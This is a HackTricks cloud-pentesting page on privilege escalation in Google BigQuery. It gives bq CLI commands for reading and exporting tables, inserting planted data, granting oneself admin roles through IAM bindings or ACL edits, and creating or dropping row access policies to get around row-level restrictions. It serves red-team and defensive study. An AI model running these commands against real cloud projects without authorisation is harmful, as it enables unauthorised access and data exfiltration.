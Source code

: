 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

For more information about BigQuery check:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

Reading the information stored inside the a BigQuery table it might be possible to find s**ensitive information**. To access the info the permission needed is **`bigquery.tables.get`** , **`bigquery.jobs.create`** and **`bigquery.tables.getData`**:

```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```

### Export data

This is another way to access the data. **Export it to a cloud storage bucket** and the **download the files** with the information.\
To perform this action the following permissions are needed: **`bigquery.tables.export`**, **`bigquery.jobs.create`** and **`storage.objects.create`**.

```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv" 
```

### Insert data

It might be possible to **introduce certain trusted data** in a Bigquery table to abuse a **vulnerability in some other place.** This can be easily done with the permissions **`bigquery.tables.get`** , **`bigquery.tables.updateData`** and **`bigquery.jobs.create`**:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery dataset:

```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```

### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Just this permission allows to **update your access over a BigQuery dataset by modifying the ACLs** that indicate who can access it:

```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```

### `bigquery.tables.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery table:

```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```

### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

According to the docs, with the mention permissions it's possible to **update a row policy.**\
However, **using the cli `bq`** you need some more: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

It's possible to find the filter ID in the output of the row policies enumeration. Example:

```bash
 bq ls --row_access_policies <proj>:<dataset>.<table>
 
      Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
 ------------- ------------------ ----------------------------- ----------------- --------------------
  apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```

If you have **`bigquery.rowAccessPolicies.delete`** instead of `bigquery.rowAccessPolicies.update` you could also just delete the policy:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
Another potential option to bypass row access policies would be to just change the value of the restricted data. If you can only see when `term` is `Cfba`, just modify all the records of the table to have `term = "Cfba"`. However this is prevented by bigquery.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
